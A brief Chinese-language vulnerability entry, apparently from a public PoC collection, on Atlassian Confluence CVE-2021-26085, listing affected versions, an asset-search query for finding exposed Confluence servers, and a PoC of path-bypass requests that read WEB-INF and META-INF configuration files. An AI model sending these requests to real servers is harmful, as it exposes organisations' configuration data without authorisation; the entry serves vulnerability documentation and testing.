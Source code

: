 # 

# Atlassian Confluence 敏感信息泄露 CVE-2021-26085

## 漏洞描述

Confluence 是一个专业的企业知识管理与协同软件，也可以用于构建企业 wiki。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。该漏洞不是任意文件读取，只能读取一些 confluence 的配置文件，影响有限。

参考链接：

- https://jira.atlassian.com/browse/CONFSERVER-67893

## 漏洞影响

```
version < 7.4.10
7.5.0 ≤ version < 7.12.3
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

poc：

```
/s/123cfx/_/;/WEB-INF/web.xml
/s/123cfx/_/;/WEB-INF/decorators.xml
/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.properties
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.xml
```


